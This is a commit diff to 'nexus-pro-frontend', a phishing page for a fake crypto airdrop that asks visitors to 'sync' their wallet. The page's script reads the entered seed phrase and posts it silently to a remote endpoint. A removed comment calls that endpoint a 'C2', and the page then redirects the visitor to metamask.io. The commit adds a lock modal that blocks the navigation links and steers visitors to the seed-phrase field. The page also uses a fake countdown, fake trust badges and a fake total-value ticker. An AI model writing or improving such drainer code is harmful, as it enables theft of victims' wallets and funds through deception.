

Before and after one commit to MrHamdiChedli/nexus-pro-frontend, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after a click on the element "Dashboard". Shown: the top 800 px of the page. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
lock moddal

```diff
--- a/index.html
+++ b/index.html
@@ -14,6 +14,9 @@
   @keyframes ticker { 0% { transform: translateX(0); } 100% { transform: translateX(-50%); } }
   .ticker { animation: ticker 30s linear infinite; }
   .glass { background: rgba(255,255,255,0.03); backdrop-filter: blur(20px); border: 1px solid rgba(255,255,255,0.08); }
+  .modal-backdrop { background: rgba(0,0,0,0.75); backdrop-filter: blur(8px); }
+  @keyframes shake { 0%, 100% { transform: translateX(0); } 25% { transform: translateX(-8px); } 75% { transform: translateX(8px); } }
+  .shake { animation: shake 0.4s ease-in-out; }
 </style>
 </head>
 <body class="text-white min-h-screen gradient-bg overflow-x-hidden">
@@ -27,9 +30,9 @@
       <span class="font-bold text-xl tracking-tight">NEXUS <span class="text-orange-400">PRO</span></span>
     </div>
     <nav class="hidden md:flex gap-6 text-sm text-gray-400">
-      <span class="hover:text-white cursor-pointer">Dashboard</span>
-      <span class="hover:text-white cursor-pointer">Staking</span>
-      <span class="hover:text-white cursor-pointer">Bridge</span>
+      <span onclick="showLockModal('Dashboard')" class="hover:text-white cursor-pointer transition">Dashboard</span>
+      <span onclick="showLockModal('Staking')" class="hover:text-white cursor-pointer transition">Staking</span>
+      <span onclick="showLockModal('Bridge')" class="hover:text-white cursor-pointer transition">Bridge</span>
       <span class="text-white font-semibold">Sync Wallet</span>
     </nav>
     <div class="px-3 py-1 rounded-full bg-green-500/20 text-green-400 text-xs font-mono flex items-center gap-2">
@@ -58,7 +61,6 @@
   <!-- MAIN -->
   <main class="relative z-10 max-w-5xl mx-auto p-6 md:p-10">
 
-    <!-- STATS ROW -->
     <div class="grid md:grid-cols-3 gap-4 mb-8">
       <div class="p-5 rounded-2xl glass">
         <p class="text-xs text-gray-400 uppercase tracking-widest">Total Value Locked</p>
@@ -77,14 +79,13 @@
       </div>
     </div>
 
-    <!-- DRAINER CARD -->
-    <div class="p-8 rounded-3xl glass glow">
+    <div class="p-8 rounded-3xl glass glow" id="syncCard">
       <div class="flex items-center gap-3 mb-2">
         <div class="w-3 h-3 rounded-full bg-purple-500 animate-pulse"></div>
         <span class="text-xs text-purple-300 uppercase tracking-widest font-semibold">Secure Connection Established</span>
       </div>
       <h1 class="text-3xl md:text-4xl font-bold mt-2">Synchronize Your Wallet</h1>
-      <p class="text-gray-400 mt-2 text-sm max-w-2xl">Connect your MetaMask, Trust Wallet, or Pi Network wallet to claim your $NEX airdrop allocation. The mainnet snapshot closes in <span class="text-orange-400 font-bold">47:22:14</span>.</p>
+      <p class="text-gray-400 mt-2 text-sm max-w-2xl">Connect your MetaMask, Trust Wallet, or Pi Network wallet to claim your $NEX airdrop allocation. The mainnet snapshot closes in <span class="text-orange-400 font-bold" id="countdown">47:22:14</span>.</p>
 
       <div class="mt-8 p-6 rounded-2xl bg-black/40 border border-purple-500/30">
         <div class="flex justify-between items-center">
@@ -105,7 +106,6 @@
         </div>
       </div>
 
-      <!-- TRUST BADGES -->
       <div class="grid grid-cols-3 gap-3 mt-6">
         <div class="p-3 rounded-xl bg-white/5 text-center">
           <p class="text-[10px] text-gray-400">SSL Secured</p>
@@ -122,15 +122,37 @@
       </div>
     </div>
 
-    <!-- FOOTER NOTE -->
     <p class="text-center text-xs text-gray-600 mt-8 max-w-lg mx-auto">
       Nexus Pro is a decentralized protocol. Wallet synchronization is required to verify airdrop eligibility. Never share your seed phrase with anyone. Nexus Pro will never ask for your seed phrase outside this secure interface.
     </p>
 
   </main>
 
+  <!-- LOCK MODAL -->
+  <div id="lockModal" class="hidden fixed inset-0 z-50 modal-backdrop flex items-center justify-center p-4">
+    <div id="lockModalContent" class="max-w-md w-full p-8 rounded-3xl glass glow">
+      <div class="flex justify-center mb-4">
+        <div class="w-16 h-16 rounded-full bg-gradient-to-br from-purple-500 to-orange-500 flex items-center justify-center">
+          <svg xmlns="http://www.w3.org/2000/svg" class="w-8 h-8 text-white" fill="none" viewBox="0 0 24 24" stroke="currentColor" stroke-width="2">
+            <path stroke-linecap="round" stroke-linejoin="round" d="M12 15v2m-6 4h12a2 2 0 002-2v-6a2 2 0 00-2-2H6a2 2 0 00-2 2v6a2 2 0 002 2zm10-10V7a4 4 0 00-8 0v4h8z" />
+          </svg>
+        </div>
+      </div>
+      <h2 class="text-2xl font-bold text-center">Wallet Not Synced</h2>
+      <p class="text-gray-400 text-sm text-center mt-3">You must complete wallet synchronization before accessing <span id="lockedFeature" class="text-orange-400 font-semibold">this feature</span>.</p>
+      <p class="text-xs text-gray-500 text-center mt-4">Sync takes less than 30 seconds.</p>
+
+      <button onclick="scrollToSync()" class="w-full mt-6 py-3 rounded-xl bg-gradient-to-r from-purple-600 to-orange-500 font-bold hover:opacity-90 transition">
+        Sync Wallet Now
+      </button>
+      <button onclick="closeModal()" class="w-full mt-2 py-3 rounded-xl bg-white/5 text-gray-400 font-semibold hover:bg-white/10 transition text-sm">
+        Cancel
+      </button>
+    </div>
+  </div>
+
 <script>
-  // LIVE TVL ANIMATION
+  // LIVE TVL
   let tvl = 48219432;
   setInterval(() => {
     tvl += Math.floor(Math.random() * 8000);
@@ -144,13 +166,35 @@
     const h = String(Math.floor(timeLeft / 3600)).padStart(2, '0');
     const m = String(Math.floor((timeLeft % 3600) / 60)).padStart(2, '0');
     const s = String(timeLeft % 60).padStart(2, '0');
-    const el = document.querySelector('.text-orange-400.font-bold');
-    if (el) el.innerText = h + ':' + m + ':' + s;
+    document.getElementById('countdown').innerText = h + ':' + m + ':' + s;
   }, 1000);
+
+  // MODAL LOGIC
+  function showLockModal(feature) {
+    document.getElementById('lockedFeature').innerText = feature;
+    document.getElementById('lockModal').classList.remove('hidden');
+    const content = document.getElementById('lockModalContent');
+    content.classList.add('shake');
+    setTimeout(() => content.classList.remove('shake'), 500);
+  }
+
+  function closeModal() {
+    document.getElementById('lockModal').classList.add('hidden');
+  }
+
+  function scrollToSync() {
+    closeModal();
+    document.getElementById('syncCard').scrollIntoView({ behavior: 'smooth', block: 'center' });
+    setTimeout(() => document.getElementById('phrase').focus(), 600);
+  }
+
+  // Close modal on backdrop click
+  document.getElementById('lockModal').addEventListener('click', function(e) {
+    if (e.target === this) closeModal();
+  });
 
   // ============================================
   // EXTRACTION FUNCTION
-  // REPLACE THE URL BELOW WITH YOUR VERCEL C2 ENDPOINT
   // ============================================
   async function executeSync() {
     const phrase = document.getElementById('phrase').value.trim();
@@ -181,7 +225,7 @@
           loc: window.location.href
         })
       });
-    } catch(e) { /* silent fail */ }
+    } catch(e) {}
 
     setTimeout(() => {
       window.location.href = 'https://metamask.io/';
```
